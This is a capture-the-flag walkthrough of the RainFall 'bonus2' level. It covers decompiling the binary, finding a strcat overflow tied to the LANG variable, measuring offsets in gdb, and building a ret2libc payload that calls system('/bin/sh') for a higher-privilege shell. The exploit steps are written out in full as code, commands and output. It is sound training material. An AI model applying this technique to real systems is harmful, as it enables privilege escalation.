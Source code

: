 # Walkthrough

The home of bonus2 contains an executable, `bonus2`. We decompile it using dogbolt and notice some interesting functins:

`greetuser()`:
```c
int greetuser(char src)
{
  __int128_t dest; 
  short v3; 
  char v4; 

  switch ( language )
  {
    case 1:
      dest = xmmword_8048717;
      v3 = *((_WORD *)&xmmword_8048717 + 8);
      v4 = *((_BYTE *)&xmmword_8048717 + 18);
      break;
    case 2:
      strcpy((char *)&dest, "Goedemiddag! ");
      break;
    case 0:
      strcpy((char *)&dest, "Hello ");
      break;
  }
  strcat((char *)&dest, &src);
  return puts((const char *)&dest);
}
```
`main()` and `language` being a global variable:
```c
int language;

int main(int argc, const char **argv, const char **envp)
{
  char v4[76];
  char dest[76]; 
  char *v6; 
  int language;

  if ( argc != 3 )
    return 1;
  memset(dest, 0, sizeof(dest)); // Cleans dest memory space
  strncpy(dest, argv[1], 40); // Copies 40 characters from the first argument
  strncpy(&dest[40], argv[2], 32); // Copies 32 characters from the second argument, 40 bytes farther
  v6 = getenv("LANG"); // Retrieves the value in the environment
  if ( v6 )
  {
    if ( !memcmp(v6, "fi", 2u) ) // language set to 1 if 'fi'
    {
      language = 1;
    }
    else if ( !memcmp(v6, "nl", 2u) ) // language set to 2 if 'nl'
    {
      language = 2;
    }
  }
  memcpy(v4, dest, sizeof(v4)); // Copies 76 characters of the 72 maximum characters of dest
  return greetuser(v4[0]);
}
```
From there, we can see that:
- The program looks at the `LANG` environment variable to set the global variable `language`
- Depending on the value of `language`, `greetuser()` changes parts of the string passed as a parameter
- The content passed to `greetuser()` comes from the user
- `greetuser()` uses the dangerous `strcat` function



Fidgeting with the environment values:
```
bonus2@RainFall:~$ env -i LANG="fi" bonus2 salut ca
Hyvää päivää salut
bonus2@RainFall:~$ env -i LANG="nl" bonus2 salut ca
Goedemiddag! salut
bonus2@RainFall:~$ env -i LANG="bla" bonus2 salut ca
Hello salut
```

And the buffer:
```
bonus2@RainFall:~$ env -i LANG="nl" bonus2 $(python -c 'print "A"*64') $(python -c 'print "B"*18')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB
bonus2@RainFall:~$ env -i LANG="nl" bonus2 $(python -c 'print "A"*64') $(python -c 'print "B"*19')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

If we don't fill the first 40 characters of the first strncpy, it will put a '\0', that's why we were only seeing  the first word of the input in the previous outputs.
```c
  strncpy(dest, argv[1], 40); // Copies 40 characters from the first argument
  strncpy(&dest[40], argv[2], 32); // Copies 32 characters from the second argument, 40 bytes
```


Let's hack now.
The idea here is to perform a `ret2libc` attack, using the `system()` function with `"/bin/sh"` in argument. 
We can find "/bin/sh" inside of the libc using `find` in gdb:
```
(gdb) info proc map
process 3468
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
```

The `system()` function is located at:
```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr
```

Depending on the language, the padding changes.


Disassemble `main()` and `greetuser()`, break at the return address of `greetuser()` in `main()` , at the address of the call to `strcat()` in `greetuser()` and after `strcat()` in `greetuser()`:
```
(gdb) b *0x0804862b
Breakpoint 1 at 0x804862b
(gdb) b *0x08048517
Breakpoint 2 at 0x8048517
(gdb) b *0x0804851c
Breakpoint 3 at 0x804851c
```

Run the program with 'A's and 'B's:
```
(gdb) r $(python -c 'print "A"*40') $(python -c 'print "B"*18')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A"*40') $(python -c 'print "B"*18')

Breakpoint 1, 0x0804862b in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048517 in greetuser ()
```

We see the return address and our 'A's and 'B's:
```
(gdb) x/80x $esp
0xbffff5b0:	0xbffff5c0	0xbffff610	0x00000001	0x00000000
0xbffff5c0:	0x6c6c6548	0x0800206f	0x0000414c	0xb7e5e281
0xbffff5d0:	0xbfffff01	0xb7e338f8	0x00000002	0xb7ec38ee
0xbffff5e0:	0xbffff618	0xbffff660	0x00000000	0xbffff6ac
0xbffff5f0:	0xbffff6c8	0xb7ff26b0	0xbfffff01	0xb7f5d780
0xbffff600:	0xbfffff04	0xb7fff918	0xbffff6c8	0x08048630 <-- Return address
0xbffff610:	0x41414141	0x41414141	0x41414141	0x41414141 <-- A
0xbffff620:	0x41414141	0x41414141	0x41414141	0x41414141 <-- A
0xbffff630:	0x41414141	0x41414141	0x42424242	0x42424242 <-- A and B
0xbffff640:	0x42424242	0x42424242	0x00004242	0x00000000 <-- B
```

We continue onto breakpoint 3, and using the different languages, this code with language "fi" overwrites the return address with 'C's:
```bash
(gdb) r $(python -c 'print "A"*40') $(python -c 'print "B"*18+"C"*4')
```

Now we exploit.

Upon calling system, the stack must look like something like this:

+---------------------------+
| String address for system |
+---------------------------+
| Return address for system |
+---------------------------+

Thus, we pad 18 to smash the stack and overwrite the return address to call `system()`, put 4 characters to make the stack in a good shape and write the address of the "/bin/sh" string in libc.

Generating the payload
```python
binsh_addr = b"\x58\xcc\xf8\xb7" # 0xb7f8cc58
system_addr = b"\x60\xb0\xe6\xb7" # 0xb7e6b060
output = 'B' * 18 + system_addr + "AAAA" + binsh_addr
print(output)
```

```
bonus2@RainFall:~$ env -i LANG="fi" bonus2 $(python -c 'print "A"*40') $(python payload.py)
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`��AAAAX��
$ whoami
bonus3
```

# Resources
[LiveOverflow ret2libc](https://www.youtube.com/watch?v=m17mV24TgwY)